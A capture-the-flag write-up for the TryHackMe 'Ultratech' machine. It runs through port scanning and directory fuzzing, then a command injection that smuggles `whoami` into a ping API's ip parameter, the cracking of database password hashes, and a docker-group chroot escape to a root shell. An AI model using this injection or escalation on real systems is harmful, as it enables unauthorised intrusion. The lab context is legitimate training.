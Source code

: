 ```yaml
---
date: 2020-05-30 07:41:34
layout: post
title: "Ultratech"
subtitle: 
description: 
image: /writeup/assets/img/ultratech/ultratech.png
optimized_image:
category: tryhackme
tags: medium
author: cirius
paginate: false
---
```

<a href=https://tryhackme.com/room/ultratech1>Link</a> to the machine on tryhackme.

Starting with the nmap scan
```bash
nmap -T4 -p- -A 10.10.119.217
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-09 22:56 IST
Nmap scan report for 10.10.212.199
Host is up (0.44s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.19 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops


TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   194.42 ms 10.8.0.1
2   195.05 ms 10.10.212.199

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.09 seconds
```

Since, there were 4 ports open.Started with the most interesting port that is 21. But anonymous login was not allowed.

Went on to the port 8081 and visited the website hosted at that port. The website was for api.
![placeholder](/writeup/assets/img/ultratech/api.png "api")

Nothing much found here so visted the port 31331 which had a website hosted.
![placeholder](/writeup/assets/img/ultratech/homepage.png "home")

Tried to find hidden directories and pages through ffuf.
```bash
ffuf -w wordlist -u http://10.10.119.217/FUZZ
```
![placeholder](/writeup/assets/img/ultratech/dir.png "dir")

The js directory had a api.js script.
```js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

The script showed two api auth and ping.ping can be used to run commands on the machine.

```bash
http://10.10.117.219/ping?ip=10.9.12.192 `whoami`
```
![placeholder](/writeup/assets/img/ultratech/rce.png "rce")

Running **ls** on the machine through the ap shows a file named **utech.db.sqlite**.
Listed contents of it with cat.

The file contained password hashes of two accounts; admin and r00t.

Cracked the hashes and logged in through the auth api as r00t.
```url
http://10.10.119.217:8081/auth?login=r00t&password=n******
```
![placeholder](/writeup/assets/img/ultratech/r00t.png "r00t")

Not much to be found.The creddentials for r00t also worked on ssh and gave the shell.

The r00t user was part of docker group.
```bash
id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

Through the command on GTFObins for docker, tried to get the root shell.
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

This failed as there was no image named alpine.

```bash
docker ps
```
This shows there is no image.
```docker ps -a
```
This shows that bash is present as image.

So ran
```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

to get the root shell.
![placeholder](/writeup/assets/img/ultratech/root.png "root")

